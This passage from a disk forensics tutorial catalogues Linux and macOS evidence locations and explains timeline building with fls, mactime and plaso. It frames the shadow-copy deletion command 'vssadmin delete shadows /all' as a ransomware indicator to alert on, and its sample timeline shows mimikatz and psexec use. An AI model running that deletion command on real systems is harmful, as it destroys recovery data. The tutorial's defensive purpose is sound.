fls -r -p /mnt/vss/vss2 | head    # analyse the snapshot as its own file system
```

**Blue team usage:** an attacker running `vssadmin delete shadows /all` generates event 8224 / Sysmon 1 with that command line, and is itself a strong ransomware precursor indicator — worth an alert on its own.

---

## Part 11: Linux and macOS Artifacts

| Artifact | Path | Value |
|---|---|---|
| Shell history | `~/.bash_history`, `~/.zsh_history`, `~/.python_history` | Commands typed; note `HISTFILE`/`HISTSIZE` tampering and that history is written at logout |
| Auth logs | `/var/log/auth.log`, `/var/log/secure` | SSH logins, `sudo` use, key auth vs password |
| wtmp/btmp/lastlog | `/var/log/wtmp`, `btmp`, `lastlog` | Binary logon records — `last -f`, `lastb -f` |
| Journald | `/var/log/journal/` | Binary; `journalctl --file=... --no-pager` |
| Cron / systemd timers | `/etc/cron*`, `/var/spool/cron/`, `/etc/systemd/system/*.timer` | Persistence |
| systemd units | `/etc/systemd/system/`, `~/.config/systemd/user/` | Persistence — check created times against install date |
| SSH | `~/.ssh/authorized_keys`, `known_hosts`, `~/.ssh/config` | **Added keys = persistence**; `known_hosts` shows outbound targets (hashed by default — resolve with a known IP list) |
| Package manager logs | `/var/log/dpkg.log`, `/var/log/yum.log`, `/var/log/apt/history.log` | What was installed and when |
| Web server logs | `/var/log/nginx/`, `/var/log/apache2/` | Webshell access, initial exploitation |
| Shell/loader persistence | `~/.bashrc`, `/etc/profile.d/`, `~/.bash_profile`, `/etc/ld.so.preload` | Classic persistence |
| Staging dirs | `/tmp`, `/dev/shm`, `/var/tmp` | Staging directories |

macOS equivalents:

| Artifact | Path |
|---|---|
| Unified logs | `/var/db/diagnostics/` (`log show --archive`) |
| Quarantine (Gatekeeper) | `~/Library/Preferences/com.apple.LaunchServices.QuarantineEventsV2` (SQLite) — download URL and time per file |
| Persistence | `/Library/LaunchAgents`, `/Library/LaunchDaemons`, `~/Library/LaunchAgents` |
| Spotlight | `.Spotlight-V100/` metadata store — attributes including `kMDItemWhereFroms` |
| FSEvents | `/.fseventsd/` — **a log of file system changes**, survives file deletion |
| KnowledgeC | `~/Library/Application Support/Knowledge/knowledgeC.db` — app usage |

**FSEvents on macOS is the closest analogue to `$UsnJrnl`:** a compressed log of created/renamed/deleted paths that persists after the files are gone. Parse with `FSEventsParser`.

---

## Part 12: Timeline Analysis

A list of artifacts is not an investigation. A **timeline** is. There are two levels.

### File system timeline: `fls -m` + `mactime`

```bash
# 1. Generate a body file (pipe-delimited intermediate format)
fls -o 1026047 -r -m "C:/" evidence.dd > /cases/tl/bodyfile.txt

# 2. Convert to a human timeline, in a chosen timezone
mactime -b /cases/tl/bodyfile.txt -z UTC -d > /cases/tl/timeline.csv

# Only a window of interest:
mactime -b /cases/tl/bodyfile.txt -z UTC 2027-01-11..2027-01-12 > /cases/tl/incident_window.txt
```

| `mactime` flag | Meaning |
|---|---|
| `-b FILE` | Body file input |
| `-z TZ` | Timezone to render in (**always state this in the report**) |
| `-d` | CSV output |
| `-y` | ISO 8601 dates |
| `-m` | Include month in output |
| `DATE..DATE` | Restrict range |
| `-g GROUPFILE` / `-p PASSWDFILE` | Resolve GID/UID to names (Linux) |

Body file format, for when you need to merge in other sources by hand:

```
MD5|name|inode|mode_as_string|UID|GID|size|atime|mtime|ctime|crtime
```

```
0|C:/Users/Public/rc.exe|8823|r/rrwxrwxrwx|0|0|421376|1767398047|1767398047|1767398047|1767398047
```

Reading a timeline is a skill of its own:

```
Thu Jan 11 2027 22:04:18   1265664 m..b r/rrwxrwxrwx 0 0 9104  C:/Users/jsmith/Downloads/mimikatz.exe (deleted)
Thu Jan 11 2027 22:04:44         0 .a.. r/rrwxrwxrwx 0 0 4471  C:/Windows/Prefetch/MIMIKATZ.EXE-8A2C41F2.pf
Thu Jan 11 2027 22:09:33    381816 m..b r/rrwxrwxrwx 0 0 9107  C:/Users/jsmith/Downloads/psexec.exe (deleted)
Thu Jan 11 2027 22:14:07    421376 ...b r/rrwxrwxrwx 0 0 8823  C:/Users/Public/rc.exe
Thu Jan 11 2027 22:14:09    421376 m.c. r/rrwxrwxrwx 0 0 8823  C:/Users/Public/rc.exe
```

The `m..b` / `.a..` column is MACB — which of the four times this line represents. Note lines 4 and 5: `rc.exe` was **born** at 22:14:07 and its metadata **changed** two seconds later — that two-second gap is the timestomp being applied *after* the file landed, and it is why the SI times in Part 4 claimed 2009 while this crtime says 2027.

**The bracketing technique:** when you have one known-bad timestamp, cut the timeline to ±10 minutes around it. Everything an attacker did in that window — temp files, prefetch, registry writes, log entries — clusters there. Then expand outward from each new anchor. This is far more effective than reading a 40-million-line timeline linearly.

### Super timeline: `log2timeline` / `plaso`

**What it is:** plaso (`log2timeline.py` + `psort.py`) parses **hundreds** of artifact types — file system, registry, EVTX, Prefetch, browser SQLite, syslog, LNK, Amcache, SRUM, and more — and merges them into one time-ordered store. It is the difference between "a file appeared" and "a file appeared, two seconds after a browser download from this URL, three seconds before a service was installed."

```bash
sudo apt install -y plaso-tools
log2timeline.py --version
```

```bash
# 1. Extract everything into a plaso storage file
log2timeline.py --status_view window --partitions all --vss_stores all \
    --parsers "win7,!filestat" -z UTC /cases/tl/case42.plaso evidence.E01

# 2. Filter and export
psort.py -o l2tcsv -w /cases/tl/super_timeline.csv /cases/tl/case42.plaso \
    "date > '2027-01-11 20:00:00' AND date < '2027-01-12 06:00:00'"
```

| Flag | Meaning |
|---|---|
| `--partitions all` | Process every partition, not just the first |
| `--vss_stores all` | **Also parse every volume shadow copy** — often doubles useful output |
| `--parsers "win7"` | Parser preset for the OS; `!filestat` excludes file system entries when you only want artifacts |
| `-z UTC` | Timezone of the *source system* for local-time artifacts |
| `--hashers md5` | Hash every file during processing |
| `psort.py -o` | Output module: `l2tcsv`, `dynamic`, `json_line`, `elastic`, `timesketch` |

**Post-processing is mandatory** — a super timeline of a 500 GB disk is tens of millions of rows. Use one of:

- **`psteal.py`** for a one-shot extract + sort.
- **Timesketch** — a web UI for collaborative timeline analysis with tagging, saved views, and analyzers. This is what mature IR teams use.
- **Sigma/Chainsaw** on the EVTX subset first, to generate anchors, then bracket in the super timeline.



### The timezone discipline

Three different timezones are in play and confusing them is the fastest way to produce a wrong report:

1. **The evidence system's timezone** — from `SYSTEM\CurrentControlSet\Control\TimeZoneInformation` (`ActiveTimeBias` in minutes). This governs local-time artifacts.
2. **The storage timezone of each artifact** — NTFS/registry/EVTX are UTC; FAT and many logs are local.
3. **Your reporting timezone** — pick one, state it on every page, and never mix.

The professional default is **report everything in UTC**, note the system's local offset once, and present local time only where a human's working hours matter.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/dfir/03-disk-forensics-file-systems-artifacts-and-autopsy-sleuth-kit), with comments and the latest edits.*
